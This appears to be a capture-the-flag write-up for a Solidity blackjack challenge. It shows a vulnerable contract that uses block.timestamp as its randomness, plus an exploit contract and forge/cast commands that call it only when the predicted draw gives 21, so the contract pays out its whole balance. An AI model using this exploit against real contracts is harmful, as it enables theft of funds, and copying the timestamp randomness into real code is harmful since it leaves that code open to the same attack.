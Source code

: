 In a game of blackjack, the objectives are to get the closest to 21, both the dealer and the player are competing in this, but as you know, this game, here at least, is rigged so that you can win if you know how. Let's see how we can always win in this game.
&nbsp;  
&nbsp;  
```solidity
function isSolved() external view returns (bool) {
    return blackjack.playerWon();
}
```
&nbsp;  
The *Setup.sol::isSolved()* will get the *Blackjack.sol::playerWon()* bool, this will return true if the player has won the game. Let's move on to the *Blackjack.sol*
&nbsp;  
&nbsp;  
```solidity
// SPDX-License-Identifier: UNLICENSED
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.25;

contract Blackjack{

    address public dealer;
    bool public playerWon;
    bool public dealerMoved;
    bool public playerMoved;
    bool public dealerWon;

    constructor() payable {
        require(msg.value == 30 ether, "Require 30 Ether to Start the game");
        dealer = msg.sender;
    }

    function playBlackjack(uint256 _choice) public {
        require(dealerWon == false, "Dealer has won the game");
        require(playerWon == false, "You've won the game!");
        uint256 playerCards = 17;
        uint256 dealerCards = 15;
        // You Have the first turn each time, you can choose either pass or draw
        // The dealer will always draw each turn, but... you can stall as long as you want.
        if(_choice == 1 && playerMoved != true){
            playerCards += uint256(keccak256(abi.encodePacked(block.timestamp))) % 10;
            playerMoved = true;
        }else if(_choice == 2 && dealerMoved != true){
            // player pass, but the dealer will draw
            uint256 toAdd = 6;
            dealerCards += toAdd;
            dealerMoved = true;
            dealerWon = true;
        }
        // Transfer all balance if the playerWon
        if(playerCards == 21){
            playerWon = true;
            (bool transfered, ) = payable(msg.sender).call{value: address(this).balance}("");
            require(transfered, "Reward failed to sent");
        }
    }

}
```
&nbsp;  
We are up against the dealer (which is the setup contract); looking deeper into *playBlackjack()*, we can notice that the randomness there are using *block.timestamp*, this is not recommended for giving a random value to a variable since it is very easy to predict. We can choose whose turn next; of course we want to take the initiative and draw our card; if not, the dealer will win regardless. We only got one chance, so we better make it count. We are not as detailed as a smart contract, so to solve this lab, we are going to create an exploit contract that will call the playBlackjack with the value of  *1* (our move) and only call it when we got *+4* - since it will bring our card to 21 and if it does, we will have *playerWon()*, here is how we can do it
&nbsp;  
&nbsp;  
```solidity
pragma solidity ^0.8.26;

import "./Setup.sol";
import "./Blackjack.sol";

contract Exploit {
    Setup public setup;
    Blackjack public BJ;

    constructor(address payable _setup) {
        setup = Setup(_setup);
        BJ = Blackjack(setup.blackjack());
    }

    function solveBlackjack() public willWin{
        BJ.playBlackjack(1);
    }

    modifier willWin(){
        uint256 randomGuesser = uint256(keccak256(abi.encodePacked(block.timestamp))) % 10;
        require(randomGuesser == 4, "YOU WON'T WIN THIS TIME");
        _;
    }

    receive() external payable{}
}
```
&nbsp;  
You don't have to use a *modifier*, you can also use a simple *if else* statement to check if you win or not, but here I'm using a modifier to return a revert message. Now we just have to deploy the contract and solve it.
&nbsp;  
&nbsp;  
```bash
// deploying the exploit contract
forge create src/$PATH_TO_EXPLOIT:$EXPLOIT_NAME -r $RPC_URL --private-key $PK --constructor-args $SETUP_ADDR

// calling the solveBlackjack()
// you maybe luckly to call it once and solved it, but it may require you call it several times
cast send -r $RPC_URL --private-key $PK $EXPLOIT_ADDR "solveBlackjack()"
```
&nbsp;  
Now you can just click the `Flag` button to get your flag~